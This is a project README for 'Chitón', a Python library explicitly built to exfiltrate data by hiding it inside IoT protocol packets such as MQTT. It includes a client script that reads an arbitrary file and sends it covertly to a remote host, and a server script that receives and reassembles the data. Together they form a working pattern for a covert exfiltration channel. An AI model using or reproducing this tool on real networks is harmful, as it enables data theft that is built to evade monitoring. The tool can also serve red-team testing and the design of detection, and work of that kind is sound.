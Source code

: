 # Chitón

![Chitón (Los caprichos) - Francisco de Goya](https://drive.google.com/uc?export=view&id=1yXGYiMW7CumDmnjg0zEu51syuJh21bjY)

[`Chiton`](https://dle.rae.es/?w=chit%C3%B3n) is a Python library to exfiltrate data encapsulating the data into IoT protocol’s packets. The library allows you to encapsulate/de-encapsulate binary data into/from a protocol packets, and send/receive protocol packets to another host over Internet.

## Dependencies

`Chiton` relies on [Scapy Project](https://scapy.net/) to encapsulate/de-encapsulate binary data. It can be installed by the following command:

```Shell
$ python3 -m pip install scapy
```

## Example of Usage

`Chiton` is designed to be imported as a library in any project, and it follows the client/server model. The client is responsible of exfiltrate data:

```Python
import sys

import chiton.network.client as client
import chiton.protocol.mqtt as mqtt

def main(filename):
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_client = client.Client(protocol, '192.168.1.40')
    data = read_file(filename)
    mqtt_client.send(data)

def read_file(filename):
    with open(filename, 'rb') as f:
        return f.read()

if __name__ == '__main__':
    main(sys.argv[1])
```

In this example, the file to exfiltrate is passed as argument to the script, which reads it as binary data. The chosen protocol in this case is MQTT with the packet type PUBLISH, and this protocol is used to create a client object willing to communicate with the host at address `192.168.1.40`. Finally, the data to exfiltrate is simply sent to the desired host calling the send function with the data as parameter, and the library handles the encapsulation of the data into the protocol’s packet payload.

```Python
import chiton.network.server as server
import chiton.protocol.mqtt as mqtt

def main():
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_server = server.Server(protocol)
    data = mqtt_server.recv()
    write_file(data, 'output.bin')


def write_file(data, filename):
    with open(filename, 'wb') as f:
        f.write(data)

if __name__ == '__main__':
    main()
```

In the other side of the communication, the example server script should be running. The workflow is similar to the client, as the server needs to specify the protocol used for data transfer, and data is finally received. The library automatically de-encapsulates the packet payload to reassemble the original payload, ready to be saved into a file.

## License

Licensed under the [GNU AGPLv3](LICENSE) license.
